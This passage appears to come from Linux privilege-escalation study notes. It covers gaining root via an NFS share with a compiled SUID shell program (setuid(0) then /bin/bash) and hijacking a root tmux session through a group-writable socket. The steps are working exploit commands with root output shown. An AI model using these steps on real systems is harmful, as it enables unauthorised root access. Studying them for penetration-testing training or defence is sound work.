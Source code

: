 ````
{
  setuid(0); setgid(0); system("/bin/bash");
}

$ gcc shell.c -o shell
````
````
<Our Attacker Machine>
$ sudo mount -t nfs <IP>:/tmp /mnt
$ cp shell /mnt
$ chmod u+s /mnt/shell
````
````
<Victim Machine>
$ ./shell
# id
uid=0(root) gid=0(root) groups=0(root)
````

### Hijacking Tmux Sessions

Terminal multiplexers such as tmux can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a tmux window, we can detach from the session, still leaving it active (i.e., running an nmap scan). For many reasons, a user may leave a tmux process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

````
$ tmux -S /shareds new -s debugsess
$ chown root:devs /shareds
````
If we can compromise a user in the devs group, we can attach to this session and gain root access.
````
$ tmux -S /shareds
````
